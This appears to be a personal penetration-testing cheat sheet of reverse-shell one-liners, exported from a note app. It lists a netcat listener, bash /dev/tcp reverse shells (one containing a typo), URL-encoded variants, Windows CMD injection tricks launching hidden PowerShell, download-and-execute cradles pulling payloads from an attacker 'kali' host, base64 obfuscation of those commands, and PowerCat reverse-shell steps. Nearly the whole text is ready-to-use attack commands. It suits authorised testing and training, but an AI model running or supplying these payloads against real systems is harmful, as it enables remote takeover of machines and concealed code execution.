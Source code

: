 ```yaml
---
title: Reverse Shells
updated: 2025-05-12 01:00:37Z
created: 2025-04-18 11:39:51Z
latitude: -33.78668940
longitude: 150.95264980
altitude: 0.0000
---
```


Start a Netcat reverse shell:
`nc -nvlp <port>`

Start Web Server using python3
`python3 -m http.server <port>`

* * * 
## Bash
`bash -i >& /dev/tcp/<target>/<port> 0>&1`
`bash -c "bash -i >& /dev/tcp/<target>/<port> 0)&1"` 
**URL Encoded:**
`bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F<target>%2F<port>%200%3E%261%22`

* * *
## CMD
Inject anything (eg **calc**):
`for /f "delims=" %i in ('dir 2^>^&1 *^|echo powershell -w hidden -nop -c calc') do @%i`

Inject reverse shell (**ps1**):
`for /f "delims=" %i in ('dir 2^>^&1 *^|echo powershell -w hidden -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://kali/payload.ps1')"') do @%i`

Wrap in a one-liner for batch file (**.bat**)
```
@echo off
for /f "delims=" %%i in ('dir 2^>^&1 *^|echo calc') do %%i
```

* * *
## PowerShell
**Base64 Encode PowerShell Commands**

1. Build your PowerShell command:
`IEX(New-Object Net.WebClient).DownloadString('http://kali/shell.ps1')`
2. Convert to **Base64** (PowerShell expects UTF-16LE)
```
$cmd = "IEX(New-Object Net.WebClient).DownloadString('http://kali/shell.ps1')"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($cmd)
[Convert]::ToBase64String($bytes)
```
3. Drop it in your payload:
`Invoke-Expression "powershell -nop -w hidden -enc XXXXXXXXXXXXXXX"`
* * *

**PowerCat**
. 1. `cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 /scripts/reverse_shells/powercat.ps1`
2. Start HTTP server to host the powercat script:
`python3 -m http.server 80`
3. Start a netcat listener
`nc -nvlp <port>`
4. Execute the script:
```
IEX (New-Object System.Net.Webclient).DownloadString ("http://<kali>/powercat.ps1");
powercat -c <kali> -p <port> -e powershell
```



